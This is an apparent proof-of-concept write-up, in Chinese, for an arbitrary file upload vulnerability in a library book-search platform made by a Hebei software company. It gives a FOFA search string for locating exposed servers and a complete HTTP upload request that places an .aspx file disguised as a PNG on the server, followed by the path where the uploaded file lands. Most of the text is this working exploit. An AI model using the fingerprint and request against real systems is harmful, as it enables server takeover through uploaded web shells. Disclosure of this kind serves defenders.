


# 一、漏洞简介
河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征


# 四、漏洞复现
```java
POST /Admin/Uploadify/UploadClientFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: ASP.NET_SessionId=vkp4usonpxcstreczz05g113
Accept: */*
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 35827

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------289666258334735365651210512949--
```



```java
/upload/bookfile/f9e503a1-5c4c-4d68-8b5d-a417f61bc1c2.aspx
```



